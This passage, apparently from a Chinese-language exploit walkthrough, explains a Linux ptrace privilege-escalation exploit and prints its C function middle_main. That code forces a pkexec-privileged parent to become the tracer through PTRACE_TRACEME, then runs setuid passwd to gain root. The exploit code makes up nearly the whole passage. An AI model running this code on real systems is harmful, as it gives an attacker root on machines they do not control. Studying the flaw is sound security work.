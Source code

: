 先看行 186, 调用 clone 生成子进程（也就是 task B）, task B 运行 middle_main 

```c
 64 static int middle_main(void *dummy) {
 65   prctl(PR_SET_PDEATHSIG, SIGKILL);
 66   pid_t middle = getpid();
 67 
 68   self_fd = SAFE(open("/proc/self/exe", O_RDONLY));
 69 
 70   pid_t child = SAFE(fork());
 71   if (child == 0) {
 72     prctl(PR_SET_PDEATHSIG, SIGKILL);
 73 
 74     SAFE(dup2(self_fd, 42));
 75 
 76     /* spin until our parent becomes privileged (have to be fast here) */
 77     int proc_fd = SAFE(open(tprintf("/proc/%d/status", middle), O_RDONLY));
 78     char *needle = tprintf("\nUid:\t%d\t0\t", getuid());
 79     while (1) {
 80       char buf[1000];
 81       ssize_t buflen = SAFE(pread(proc_fd, buf, sizeof(buf)-1, 0));
 82       buf[buflen] = '\0';
 83       if (strstr(buf, needle)) break;
 84     }
 85 
 86     /*
 87      * this is where the bug is triggered.
 88      * while our parent is in the middle of pkexec, we force it to become our
 89      * tracer, with pkexec's creds as ptracer_cred.
 90      */
 91     SAFE(ptrace(PTRACE_TRACEME, 0, NULL, NULL));
 92 
 93     /*
 94      * now we execute passwd. because the ptrace relationship is considered to
 95      * be privileged, this is a proper suid execution despite the attached
 96      * tracer, not a degraded one.
 97      * at the end of execve(), this process receives a SIGTRAP from ptrace.
 98      */
 99     puts("executing passwd");
100     execl("/usr/bin/passwd", "passwd", NULL);
101     err(1, "execl passwd");
102   }
103 
104   SAFE(dup2(self_fd, 0));
105   SAFE(dup2(block_pipe[1], 1));
106 
107   struct passwd *pw = getpwuid(getuid());
108   if (pw == NULL) err(1, "getpwuid");
109 
110   middle_success = 1;
111   execl("/tmp/fakepkexec", "fakepkexec", "--user", pw->pw_name, NULL);
112   middle_success = 0;
113   err(1, "execl pkexec");
114 }

```
